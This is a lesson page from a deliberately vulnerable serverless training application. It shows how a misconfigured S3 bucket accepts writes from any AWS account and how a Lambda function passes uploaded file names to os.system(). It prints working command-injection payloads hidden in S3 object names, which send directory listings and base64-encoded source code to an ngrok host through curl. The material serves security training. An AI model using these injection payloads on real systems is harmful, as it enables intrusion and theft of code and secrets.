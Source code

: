 
# LESSON #4: Insecure Cloud Configuration

The DVSA uses cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipt is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-cli, you can simply run the command: 

`aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}`

![alt s3-upload](https://i.imgur.com/ClSnqeX.png)

*Note, that you won't be able to run `ls` with an account different than the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receipt-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. `2018/12/24/{receipt-uuid}.txt`.

2. So let's fake a receipt and see what happens. Using the aws-cli we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?data="$(ls)";echo x.raw' --acl public-read --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

If we follow the path (_cd;_ your way in), eventually we will get:
![alt ls](https://i.imgur.com/mu2ky2O.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --acl public-read --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: `echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py`

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/LESSON_05.md) or executing any other command.


- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

